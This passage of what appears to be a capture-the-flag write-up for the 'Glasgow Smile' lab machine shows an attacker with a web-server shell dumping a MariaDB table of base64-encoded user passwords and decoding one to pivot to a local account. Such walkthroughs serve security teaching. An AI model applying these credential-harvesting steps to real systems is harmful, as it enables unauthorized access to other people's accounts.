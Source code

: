 ```console
+--------------------+
```

Switching to the "batjoke" database and listing its tables.

```console
MariaDB [joomla_db]> use batjoke;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
MariaDB [batjoke]> show tables;
+-------------------+
| Tables_in_batjoke |
+-------------------+
| equipment         |
| taskforce         |
+-------------------+
2 rows in set (0.001 sec)
```

Retrieving the content of the "taskforce" table.

```console
MariaDB [batjoke]> select * from taskforce;
+----+---------+------------+---------+----------------------------------------------+
| id | type    | date       | name    | pswd                                         |
+----+---------+------------+---------+----------------------------------------------+
|  1 | Soldier | 2020-06-14 | Bane    | YmFuZWlzaGVyZQ==                             |
|  2 | Soldier | 2020-06-14 | Aaron   | YWFyb25pc2hlcmU=                             |
|  3 | Soldier | 2020-06-14 | Carnage | Y2FybmFnZWlzaGVyZQ==                         |
|  4 | Soldier | 2020-06-14 | buster  | YnVzdGVyaXNoZXJlZmY=                         |
|  6 | Soldier | 2020-06-14 | rob     | Pz8/QWxsSUhhdmVBcmVOZWdhdGl2ZVRob3VnaHRzPz8/ |
|  7 | Soldier | 2020-06-14 | aunt    | YXVudGlzIHRoZSBmdWNrIGhlcmU=                 |
+----+---------+------------+---------+----------------------------------------------+
6 rows in set (0.002 sec)
```

In the output we can see that the passwords are in base64, we decode rob's password, since this user exists on the system.

```console
www-data@glasgowsmile:/var/www/html/joomla$ ls /home/
abner  penguin  rob

www-data@glasgowsmile:/var/www/html/joomla$ echo 'Pz8/QWxsSUhhdmVBcmVOZWdhdGl2ZVRob3VnaHRzPz8/' | base64 -d; echo
???AllIHaveAreNegativeThoughts???
```

## Privilege Escalation
### Password Disclosure
